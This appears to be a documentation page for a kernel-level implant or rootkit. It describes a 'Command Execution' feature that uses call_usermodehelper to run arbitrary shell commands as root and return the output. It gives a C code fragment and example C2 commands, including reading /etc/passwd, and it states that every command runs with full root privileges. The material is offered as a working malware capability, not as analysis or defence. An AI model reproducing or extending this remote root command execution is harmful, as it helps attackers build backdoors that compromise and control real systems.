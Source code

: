 ```yaml
---
title: "Command Execution"
description: "Execute system commands with output capture"
icon: "terminal"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 511
---
```




## Implementation

```c
int handle_exec(const char *data)
{
    char *argv[] = { "/bin/sh", "-c", NULL, NULL };
    char *envp[] = { 
        "HOME=/", 
        "PATH=/sbin:/bin:/usr/bin:/usr/local/bin", 
        "TERM=linux",
        NULL 
    };
    
    // Redirect output to temp file
    snprintf(full_command, strlen(data) + strlen(temp_filename) + 32,
             "%s > %s 2>&1", data, temp_filename);
    
    argv[2] = full_command;
    
    // Execute command
    ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    
    // Read output and send back
    return send_result(result_buffer);
}
```

Uses shell execution with output redirection to temporary files for result capture.

## Testing

```bash
# Example commands via C2
exec ls -la /tmp
exec whoami
exec ps aux | grep root
exec cat /etc/passwd
```

## Output Format

```
Exit code: 0
Output:
[command output here]
```

All commands are executed as root with full system privileges.